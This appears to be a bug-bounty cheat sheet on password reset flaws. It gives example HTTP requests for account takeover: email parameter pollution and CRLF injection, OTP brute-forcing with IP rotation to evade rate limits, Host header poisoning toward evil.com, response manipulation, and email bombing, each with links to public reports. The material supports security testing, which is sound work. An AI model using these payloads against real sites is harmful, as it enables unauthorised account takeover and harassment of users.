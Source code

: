 ## Password Reset Flaws

### 1. Account Takeover: Password Reset With Manipualating Email Parameter

```
POST /reset
[...]
1 email= victim@gmail.com&email=attacker@gmil.com
or
2 email= victim@gmail.com%20email=attacker@gmil.com
or
3 email= victim@gmail.com |email=attacker@gmil.com
or
4 email= "victim@gmail.com%0d%0acc:attacker@gmil.com"
or
5 email="victim@mail.com","attacker@mail.com"
or
{"email":["victim@mail.tld","atracker@mail.tld"]}
or
6 email= victim@gmail.com&code= my password reset token
```
https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be
https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/
https://twitter.com/HusseiN98D/status/1254888748216655872
https://twitter.com/HusseiN98D/status/1254888748216655872/photo/1

### 2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$

```
 *Use IP-Rotator on burpsuite to bypass IP based ratelimit. 

### 3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
https://hackerone.com/reports/226659
https://hackerone.com/reports/167631
https://www.acunetix.com/blog/articles/password-reset-poisoning/
https://pethuraj.com/blog/how-i-earned-800-for-host-header-injection-vulnerability/
https://medium.com/@swapmaurya20/password-reset-poisoning-leading-to-account-takeover-f178f5f1de87


### 4. Full Account Takeover via Changing Email And Password of any User through API Parameters
```
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})   

```
Reference

  https://medium.com/@adeshkolte/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240


### 5.Response manipulation: Replace Bad Response With Good One
```
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)

Change Response

HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)
```
 https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3

### 6.No Rate Limiting: Email Bombing

    Start the Burp Suite and Intercept the password reset request
    Send to intruder
    Use null payload

 https://hackerone.com/reports/280534
 https://hackerone.com/reports/794395
    
### 7.Password Reset Token Leak Via Referrer
  https://hackerone.com/reports/342693
  https://hackerone.com/reports/272379
  https://hackerone.com/reports/737042
  https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a
  https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1

### 8. Using Expired Token
Check if the expired token can be reused

### 9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user
Use Burp Sequencer to find the randomness or predictability of tokens.
> [For Example](https://medium.com/bugbountywriteup/how-i-discovered-an-interesting-account-takeover-flaw-18a7fb1e5359)
